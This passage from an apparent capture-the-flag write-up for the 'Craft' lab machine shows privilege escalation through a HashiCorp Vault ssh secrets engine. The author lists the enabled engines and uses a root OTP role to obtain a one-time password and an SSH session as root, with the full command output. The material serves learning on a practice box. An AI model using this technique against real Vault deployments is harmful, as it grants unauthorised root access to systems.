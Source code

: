 We can see that the vault service is being run and a new server is spawned when we log in to the box.

Reading up the documentation on this service, we can see that it allows secrets to be stored and shared across many servers using the shamir's secret sharing algorithm.

Listing the secrets engines that are enabled, 
```
Path          Type         Accessor              Description
----          ----         --------              -----------
cubbyhole/    cubbyhole    cubbyhole_ffc9a6e5    per-token private secret storage
identity/     identity     identity_56533c34     identity store
secret/       kv           kv_2d9b0109           key/value secret storage
ssh/          ssh          ssh_3bbd5276          n/a
sys/          system       system_477ec595       system endpoints used for control, policy and debugging
```

We can see that there's an ssh engine in place and this could cause some major security concerns..

Which gilfoyle has already affirmed in his repository:

![ssh](ssh.JPG)

We can probably use that to give us an ssh shell direct, which the documentation clearly shows for ssh sessions with the use of OTPs instead of passwords.

```
gilfoyle@craft:~$ vault ssh -role root_otp -mode otp root@10.10.10.110
Vault could not locate "sshpass". The OTP code for the session is displayed
below. Enter this code in the SSH password prompt. If you install sshpass,
Vault can automatically perform this step for you.
OTP for the session is: fe7721c3-8b08-1605-bd23-d37d111bd93a
The authenticity of host '10.10.10.110 (10.10.10.110)' can't be established.
ECDSA key fingerprint is SHA256:sFjoHo6ersU0f0BTzabUkFYHOr6hBzWsSK0MK5dwYAw.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.110' (ECDSA) to the list of known hosts.


  .   *   ..  . *  *
*  * @()Ooc()*   o  .
    (Q@*0CG*O()  ___
   |\_________/|/ _ \
   |  |  |  |  | / | |
```